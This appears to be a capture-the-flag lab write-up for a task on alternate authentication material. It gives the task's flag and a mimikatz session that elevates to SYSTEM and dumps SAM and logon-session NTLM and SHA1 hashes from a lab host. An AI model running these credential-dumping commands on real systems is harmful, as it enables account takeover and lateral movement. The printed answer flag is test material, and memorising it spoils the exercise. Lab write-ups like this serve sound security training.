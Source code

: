 ## Task 5  Use of Alternate Authentication Material
+ What is the flag obtained from executing "flag.exe" on t1_toby.beck's desktop on THMIIS? `THM{NO_PASSWORD_NEEDED}`

```bash
Microsoft Windows [Version 10.0.14393]          
(c) 2016 Microsoft Corporation. All rights reserved.                

za\t2_felicia.dean@THMJMP2 C:\tools>mimikatz    

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53        
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)     
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz             
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )               
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/               

mimikatz # privilege::debug 
Privilege '20' OK 
mimikatz # token::elevate   
Token Id  : 0               
User name :                 
SID name  : NT AUTHORITY\SYSTEM                 

504     {0;000003e7} 1 D 16945          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary     
 -> Impersonated !          
 * Process Token : {0;00439300} 0 D 4431384     ZA\t2_felicia.dean      S-1-5-21-3330634377-1326264276-632209373-4605   (12g,24p
)       Primary             
 * Thread Token  : {0;000003e7} 1 D 4503867     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegatio
n)

mimikatz# lsadump::sam
Domain : THMJMP2   
SysKey : 2e27b23479e1fb1161a839f9800119eb
Local SID : S-1-5-21-1946626518-647761240-1897539217 
SAMKey : 9a74a253f756d6b012b7ee3d0436f77a                  
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 0b2571be7e75e3dbd169ca5352a2dad7
RID  : 000001f5 (501)                 
User : Guest           
RID  : 000001f7 (503)
User : DefaultAccount 

mimikatz # sekurlsa::msv              
[....More Stuff....]   

Authentication Id : 0 ; 688557 (00000000:000a81ad)        
Session           : RemoteInteractive from 4              
User Name         : t1_toby.beck1     
Domain            : ZA                
Logon Server      : THMDC             
Logon Time        : 1/17/2024 12:09:56 PM                 
SID               : S-1-5-21-3330634377-1326264276-632209373-4616             
        msv :     
         [00000003] Primary           
         * Username : t1_toby.beck1   
         * Domain   : ZA              
         * NTLM     : 533f1bd576caa912bdb9da284bbc60fe    
         * SHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38                
```